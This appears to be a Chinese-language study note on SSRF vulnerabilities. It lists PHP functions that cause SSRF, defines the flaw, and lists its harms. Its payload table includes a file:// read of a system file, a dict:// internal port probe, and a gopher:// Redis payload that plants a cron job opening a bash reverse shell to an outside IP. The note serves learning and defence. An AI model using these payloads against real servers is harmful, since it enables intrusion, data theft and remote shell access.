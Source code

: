 ### PHP其他函数

| 函数                | 作用                                    |
| ------------------- | --------------------------------------- |
| curl_exec()         | 执行cURL会话                            |
| file_get_contents() | 将整个文件读入一个字符串                |
| fsockopen()         | 打开一个网络连接或者一个Unix套 接字连接 |

可能引起SSRF漏洞

### CURL其他协议

| 协议   | 作用      | payload                                                      |
| ------ | --------- | ------------------------------------------------------------ |
| file   | 查看文件  | `curl -v 'file:///etc/password'`                             |
| dict   | 探测端口  | http://192.168.31.193:8091/ssrf1.php?url=dict://192.168.31.193:3306 |
| gopher | 反弹shell | `curl -v 'gopher://192.168.31.193:8091/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d% 0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.142.135/4444 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3% 0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron /%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a $10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$ 4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'` |

### 协议

 dict协议：用于搭建在线字典服务

 gopher协议：是一种信息查找系统，只支持文本，不支持图像，已被HTTP替代

## SSRF定义 

SSRF Server-Side Request Forgery 

服务器端请求伪造：是一种由攻击者构造形成由**服务端**发起请求的一个安全漏洞。

![image-20221125133759679](https://img.gyxnb.top/img/image-20221125133759679.png)

## 危害（利用方式） 

1. 扫描资产 
2. 获取敏感信息 
3. 攻击内网服务器（绕过防火墙） 
4. 访问大文件，造成溢出 
5. 通过Redis写入WebShell或建立反弹连接

# SSRF常见场景

## 社会化分享功能

![image-20221125140125984](https://img.gyxnb.top/img/image-20221125140125984.png)

![image-20221125140133352](https://img.gyxnb.top/img/image-20221125140133352.png)
